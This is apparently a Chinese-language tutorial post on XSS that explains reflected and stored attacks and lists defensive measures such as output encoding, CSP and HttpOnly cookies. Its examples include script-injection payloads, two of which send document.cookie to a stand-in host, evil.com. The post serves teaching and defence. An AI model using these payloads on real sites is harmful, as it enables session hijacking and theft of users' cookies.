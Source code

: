 ```yaml
---
title: XSS Attack
date: 2025-04-12 23:58:57
categories:
 - 计算机网络
tags:
 - 计算机网络
 - 网络安全
---
```


## 1. XSS 攻击

XSS（Cross-Site Scripting, 跨站脚本攻击）是一种常见的 Web 安全漏洞, 攻击者通过在网页中注入恶意脚本代码, 当其他用户浏览该页面时, 这些恶意脚本会在用户的浏览器中执行, 从而实现窃取用户信息、会话劫持等攻击目的, 

### 1.1. 反射型 XSS (Reflected XSS)

反射型 XSS 是一种非持久性跨站脚本攻击, 攻击者通过诱导用户点击包含恶意脚本的链接, 将恶意代码注入到目标网站的页面中, 恶意脚本通过用户的请求（通常是 URL 参数）被“反射”到服务器的响应中, 并在用户的浏览器中执行, 

- 攻击者构造一个包含恶意脚本的 URL（通常通过 GET 参数传递）
- 用户被诱导点击该 URL（例如通过钓鱼邮件或社交工程）
- 服务器接收到请求后，未经充分过滤或转义就将用户输入（包含恶意脚本）直接嵌入到响应页面中
- 浏览器收到响应后，执行页面中的恶意脚本，导致攻击生效

假设有一个简单的搜索网站 `example.com`, 用户可以在页面上输入搜索关键词, 服务器会将关键词显示在结果页面上, 例如, 用户输入 apple, URL 会变成 `http://example.com/search?q=apple`:

结果页面会显示:

```
您搜索了：apple
```

如果服务器没有对用户输入 q 参数进行过滤或转义, 攻击者可以构造一个恶意 URL:

```
http://example.com/search?q=<script>alert('Hacked!');</script>
```

当用户点击这个链接时，服务器会将 `<script>alert('Hacked!');</script>` 直接嵌入到响应页面中，生成如下 HTML:

```html
<div>
  您搜索了：<script>alert('Hacked!');</script>
</div>
```

用户的浏览器会解析并执行这个脚本，弹出一个提示框显示 Hacked!

攻击者可能不仅仅是弹窗, 而是窃取用户的 Cookie 或重定向到恶意网站, 例如, 构造如下 URL:

```
http://example.com/search?q=<script>document.location='http://evil.com/steal?cookie='+document.cookie;</script>
```

当用户点击后，浏览器会执行脚本，将用户的 Cookie 发送到攻击者的服务器 `evil.com`

**防御措施**

- 对用户输入进行严格的**输入验证**和**输出编码**（例如，将 `<` 编码为 `&lt;`）
- 使用安全的框架（如 React 或 Angular），它们通常会自动对输出进行转义
- 启用 Content Security Policy (CSP)，限制页面加载的脚本来源
- 对 URL 参数进行过滤，拒绝包含可疑字符的请求

### 1.2. 存储型 XSS (Stored XSS)

存储型 XSS 是一种持久性跨站脚本攻击, 攻击者将恶意脚本注入到目标网站的数据库或其他存储介质中, 当其他用户访问受感染的页面时, 服务器会从存储中取出恶意脚本并将其嵌入到页面, 脚本会在用户的浏览器中执行:

- 攻击者通过网站的输入点（如评论区、用户资料、帖子等）提交包含恶意脚本的内容

- 服务器未对输入进行充分过滤，将恶意脚本保存到数据库
- 当其他用户访问相关页面时，服务器从数据库中取出数据（包含恶意脚本），并将其嵌入到页面中
- 用户的浏览器加载页面时，执行恶意脚本

假设有一个论坛网站, 用户可以在帖子中发表评论, 如果服务器没有对评论内容进行过滤, 攻击者可以在评论中输入恶意脚本, 例如, 攻击者在评论框中输入:

```
<script>alert('You are hacked!');</script>
```

这条评论被保存到数据库中, 每当其他用户访问这个帖子时, 服务器会从数据库中取出评论内容并直接渲染到页面, 生成如下 HTML:

```html
<div class="comment">
  <script>alert('You are hacked!');</script>
</div>
```

所有访问该帖子的用户都会在浏览器中看到 You are hacked! 的弹窗, 攻击者可能利用存储型 XSS 进行更严重的攻击, 例如窃取用户会话或执行钓鱼攻击, 假设攻击者在评论中输入:

```js
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://evil.com/steal?cookie=' + document.cookie, true);
  xhr.send();
</script>
```

这条评论被存储后, 任何访问该页面的用户的 Cookie 都会被发送到攻击者的服务器 evil.com, 如果网站使用 Cookie 进行身份验证, 攻击者可能窃取用户的会话, 冒充用户进行操作, 

**防御措施**

- 使用 HTTPOnly 和 Secure Cookie 标志, 降低 Cookie 窃取的风险
- 启用 Content Security Policy (CSP), 限制脚本执行
- 对用户输入进行严格的**输入验证**, 只允许安全的字符和格式